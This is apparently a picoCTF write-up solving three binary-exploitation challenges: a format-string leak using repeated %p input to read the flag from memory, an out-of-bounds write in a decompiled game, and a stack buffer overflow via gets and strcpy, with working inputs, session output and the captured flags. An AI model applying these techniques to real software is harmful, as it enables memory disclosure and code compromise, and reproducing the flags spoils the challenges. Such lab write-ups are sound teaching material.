


# Stonks

**Flag:** `picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}`

We're given a C source file `vuln.c` and told there's a vulnerability in it. Browsing through it, this code block seems to be the unsafe one

```c
    char *user_buf = malloc(300 + 1);
    printf("What is your API token?\n");
    scanf("%300s", user_buf);
    printf("Buying stonks with token:\n");
    printf(user_buf);  ■ Format string is not a string literal (potentially insecure) (fix available)
```

Here, the final `printf` statement is not a literal. My IDE even gives me a warning here. In this, if I use any format specifiers such as `%s`, `%ld` or `%p`, `printf` will treat them as such and then try to access additional information, potentially causing a memory overflow and/or security vulnerabilities.

We're also given a command `nc mercury.picoctf.net 6989` to run the program on the server. We use a few different format specifiers as shown below.

1. **Using the character sequence specifier `%s`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
Buying stonks with token:
timeout: the monitored command dumped core
```

2. **Using the integer specifier `%d`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d
Buying stonks with token:
137020432134524928134515139-134632064-11137011552-134577904-134631993013701568011370204001370204321868786032206820665981240864987867090118349702208124742331601778542892887344842360115-7470979-134391048-13457708840820224010-136086295-134573888-134634048-134635520-7459304-136149363-134634048134516426-74592920-134492407134524928-134635520-134631904-7459240-134468272-134629232408202240-134635520134524928-7459240134515846137011552-7459260-7459240134515689-134634500
Portfolio as of Fri Nov  3 10:50:09 UTC 2023


1 shares of RRJY
4 shares of GKV
1 shares of KQ
108 shares of LE
18 shares of PQ
81 shares of OL
235 shares of TP
18 shares of LKE
72 shares of MLW
Goodbye!
```

3. **Using the pointer specifier `%p`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x9a2d4700x804b0000x80489c30xf7f29d800xffffffff0x10x9a2b1600xf7f371100xf7f29dc7(nil)0x9a2c1800x10x9a2d4500x9a2d4700x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x353861300x323565330xffda007d0xf7f64af80xf7f374400xe90f4f000x1(nil)0xf7dc6ce90xf7f380c00xf7f295c00xf7f290000xffdaad980xf7db768d0xf7f295c00x8048eca0xffdaada4(nil)0xf7f4bf090x804b0000xf7f290000xf7f29e200xffdaadd8
Portfolio as of Tue Nov  7 19:30:57 UTC 2023


1 shares of NSW
2 shares of H
1 shares of KTHY
1 shares of Q
4 shares of F
3 shares of PGX
1 shares of N
70 shares of Q
6 shares of G
15 shares of HEW
79 shares of UHKM
1557 shares of L
Goodbye!
```

The first attempt gives us nothing, but the second and third give us a sequence of decimals and hexadecimals respectively.

Using the number system converters on [rapidtables](https://www.rapidtables.com/convert/number/), the sequence of decimals seems to give us nothing but meaningless data.



But for the hexadecimal characters, we get promising results. Cleaning up the hex by removing the digits with a `(nil)` after them and feeding them into `xxd` and `strings`, we get this.

```
~ $ echo -n "0x9a2d4700x804b0000x80489c30xf7f29d800xffffffff0x10x9a2b1600xf7f371100x9a2c1800x10x9a2d4500x9a2d4700x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x353861300x323565330xffda007d0xf7f64af80xf7f374400xe90f4f000xf7dc6ce90xf7f380c00xf7f295c00xf7f290000xffdaad980xf7db768d0xf7f295c00x8048eca0xf7f4bf090x804b0000xf7f290000xf7f29e200xffdaadd8" \
    | xxd -r -p | strings
ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3}
```

The output is `ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3}`. This seems to be the flag, albiet distorted in some way.

It seems every four characters in the flag are reversed. We write some python code to take care of this

```py
string = "ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3}"
new_string = ""
tmp = ""

for i in range(len(string)):
    if i % 4 == 0:
        new_string += tmp[::-1]
        tmp = ""

    tmp += string[i]
print(new_string)
```

```
~/Projects $ python3 decode.py
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52
```

# babygame01

**Flag:** `picoCTF{gamer_m0d3_enabled_f3416ca2}`

We're given a binary file `game`, and a command to connect to a server running the game, `nc saturn.picoctf.net 64268`.

Decompiling the game with Ghidra, we see a function `win`

```c
void win(void) {
    FILE *__stream;
    int in_GS_OFFSET;
    char local_4c [60];
    int local_10;

    local_10 = *(int *)(in_GS_OFFSET + 0x14);
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0) {
        puts("flag.txt not found in current directory");
        // WARNING: Subroutine does not return
        exit(0);
    }
    fgets(local_4c,0x3c,__stream);
    printf(local_4c);
    if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
        __stack_chk_fail_local();
    }
    return;
}
```

It seems the function reads a line from the file `flag.txt` and prints it to stdout. This is probably the function we want to run to get our flag.

There's a function `print_map` as well

```c
void print_map(int param_1,undefined4 param_2) {
    int local_14;
    int local_10;

    clear_screen();
    find_player_pos(param_1);
    find_end_tile_pos(param_1);
    print_flag_status(param_2);
    for (local_14 = 0; local_14 < 0x1e; local_14 = local_14 + 1) {
        for (local_10 = 0; local_10 < 0x5a; local_10 = local_10 + 1) {
            putchar((int)*(char *)(local_10 + param_1 + local_14 * 0x5a));
        }
        putchar(10);
    }
    fflush(_stdout);
    return;
}
```

We see a function `init_player`

```c
void init_player(undefined4 *param_1) {
    *param_1 = 4;
    param_1[1] = 4;
    *(undefined *)(param_1 + 2) = 0;
    return;
}
```

This seems to set three values, which seem to be the players x-coordinate, y-coordinate, and flag. They are set to 4, 4, and 0 respectively. Their positions are at the memory address pointing to `param_1`, the first character of `param_1`, and the pointer to the value of `param_1` + 2, casted to an unknown type.

The state of the flag is given by this function. Going by this, it seems the flag is the integer value of the character at the memory location 8 bytes offset from `param_1`.

```c
void print_flag_status(int param_1) {
    printf("Player has flag: %d\n",(uint)*(byte *)(param_1 + 8));
    return;
}
```

Another function `move_player` contains the code for player movement. There's also two other keys, 'l' for changing the symbol representing the player's tile, and 'p' for running a function `solve_round`, presumably to solve the board and bring the player tile to the end of the board automatically.

```c
void move_player(int *param_1,char param_2,int param_3) {
    int iVar1;

    if (param_2 == 'l') {
        iVar1 = getchar();
        player_tile = (undefined)iVar1;
    }
    if (param_2 == 'p') {
        solve_round(param_3,param_1);
    }
    *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = 0x2e;
    if (param_2 == 'w') {
        *param_1 = *param_1 + -1;
    }
    else if (param_2 == 's') {
        *param_1 = *param_1 + 1;
    }
    else if (param_2 == 'a') {
        param_1[1] = param_1[1] + -1;
    }
    else if (param_2 == 'd') {
        param_1[1] = param_1[1] + 1;
    }
    *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = player_tile;
    return;
}
```

Finally, we reach the `main` function

```c
undefined4 main(void) {
    int iVar1;
    undefined4 uVar2;
    int in_GS_OFFSET;
    int local_aac;
    int local_aa8;
    char local_aa4;
    undefined local_aa0 [2700];
    int local_14;
    undefined *local_10;

    local_10 = &stack0x00000004;
    local_14 = *(int *)(in_GS_OFFSET + 0x14);
    init_player(&local_aac);
    init_map(local_aa0,&local_aac);
    print_map(local_aa0,&local_aac);
    signal(2,sigint_handler);
    do {
        do {
            iVar1 = getchar();
            move_player(&local_aac,(int)(char)iVar1,local_aa0);
            print_map(local_aa0,&local_aac);
        } while (local_aac != 0x1d);
    } while (local_aa8 != 0x59);
    puts("You win!");
    if (local_aa4 != '\0') {
        puts("flage");
        win();
        fflush(_stdout);
    }
    uVar2 = 0;
    if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
        uVar2 = __stack_chk_fail_local();
    }
    return uVar2;
}
```

It seems to run the win function, we need to make sure the variable `local_aa4` is not equal to zero.

The `print_map` function is called with the arguments `local_aa0` and the memory address of `local_aac`. This means the flag printed will be the value 8 bytes offset from `local_aac`, i.e. `local_aa4`. This is the same as the value we need to set as non-zero. So it seems we need to set the flag value in the game to a non-zero value.

The game board is defined by the variable `local_aa0`. There don't seem to be any overflow checks implemented in these functions. So if we set our player's position 4 bytes behind the game board (4 bytes being the distance of `local_aa4` from `local_aa0`), we can set the flag to the value of our player's symbol. We can then solve the board instantly by typing the 'p' key.



# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

Here, we have a simple piece of C code that we need to overflow. The relevant code is this

```c
#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
    printf("%s\n", flag);
    fflush(stdout);
    exit(1);
}

void vuln(char *input){
    char buf2[16];
    strcpy(buf2, input);
}

int main(int argc, char **argv){
    FILE *f = fopen("flag.txt","r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag,FLAGSIZE_MAX,f);
    signal(SIGSEGV, sigsegv_handler); // Set up signal handler

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    printf("Input: ");
    fflush(stdout);

    char buf1[100];
    gets(buf1);
    vuln(buf1);

    printf("The program will exit now\n");

    return 0;
}
```

Here, an input of just over 20 characters is enough for it to overflow and give us the flag.

```
~ $ nc saturn.picoctf.net 64712
Input: gbBPmxz01LIlqUWhRTPD
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
